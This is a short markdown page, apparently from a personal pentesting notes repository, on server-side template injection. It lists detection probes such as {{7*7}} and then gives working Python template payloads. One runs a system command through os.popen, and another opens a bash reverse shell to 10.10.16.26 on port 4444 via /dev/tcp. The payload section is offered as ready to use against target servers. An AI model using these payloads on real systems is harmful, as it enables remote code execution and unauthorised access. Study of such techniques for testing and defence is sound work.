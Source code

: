 # Plaintext Context SSTI.
## Detection.
The first task we have to do to detect a SSTI vulnerability is to check which is the template that is being used by the server. After that we have two possible ways:
- We extract the server template so we know exactly the programming lenguaje that is being used by the server.
- We have to try the next expressions to realize which one of them are interpreted so we can exactly know which programming lenguage we have to use to deploy our payload.
```javascript
{{7*7}} 
${{7*7}} 
${7*7} 
#{7*7} 
<%= 7*7 %>
```
### Case 1:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/86a348ed-e521-412d-8e41-3a0b3877dce6" width="600"><br />
### Case 2: 
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/bde33c1d-911c-43da-ae03-ddd2b46bdce1" width="500">
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a9136b41-09cb-48fd-bc6d-40848bad3d96" width="500">

After that we can check some resources as 1- [PayloadsAllTheThings-SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) or 2- [Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) to obtain a good payload to use in the target server.

## Payload examples.
Here are some payload examples that in my experience usually work, however, they sometimes may not work properly so we have to check the previous resources to see if we can obtain a useful payload.
### Python.
#### Executing a command:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
#### Obtaining a shell:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.16.26/4444 0>&1" ').read() }}
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/a6610bf1-9f80-454c-9099-3adee2423d49" width="580">

<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/0bbe557f-a638-43fe-ac61-b39e563d3e83" width="450">





